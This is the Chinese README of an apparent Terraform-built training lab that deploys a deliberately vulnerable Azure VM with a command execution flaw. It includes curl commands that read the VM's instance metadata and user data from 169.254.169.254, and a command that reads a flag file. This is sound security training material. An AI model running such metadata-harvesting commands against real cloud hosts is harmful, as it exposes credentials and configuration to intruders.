


# Azure VM 命令执行漏洞环境

[English](./README.md) | 中文

## 描述信息

这是一个用于构建 Azure VM 命令执行漏洞环境的靶场。

使用 Terraform 构建环境后，用户可以通过命令执行漏洞获取到 VM 上的元数据、用户数据等信息。

## 环境搭建

在容器中执行以下命令

```shell
cd /TerraformGoat/azure/vm/vm_command_execution
```

通过 `az login` 命令进行 Azure 身份认证，根据提示进行认证即可。

```shell
az login
```

部署靶场

```shell
terraform init
terraform apply
```

> 在终端提示 `Enter a value:` 时，输入 `yes` 即可

环境搭建完后，在 Outputs 处可以看到靶场的访问地址，打开浏览器访问即可

> 由于靶场搭建需要一定时间，因此如果浏览器访问不到，可以等待 1-2 分钟后再访问试试。

## 漏洞利用

在存在命令执行漏洞的 VM 上，我们可以利用命令执行获取 VM 的元数据、用户数据等信息。

读取元数据

```shell
curl -H Metadata:true http://169.254.169.254/metadata/instance?api-version=2021-05-01 | python -m json.tool
```



读取用户数据

> 前提是目标已经配置了用户数据

```shell
curl -H Metadata:true --noproxy "*" "http://169.254.169.254/metadata/instance/compute/userData?api-version=2021-01-01&format=text" | base64 --decode
```



在用户数据信息中，可以看到在靶场的根目录下有个 flag 文件，尝试利用命令执行读取这个文件

```shell
cat /flag69152201.txt
```


成功读取到 flag 文件

## 销毁环境

```shell
terraform destroy
```
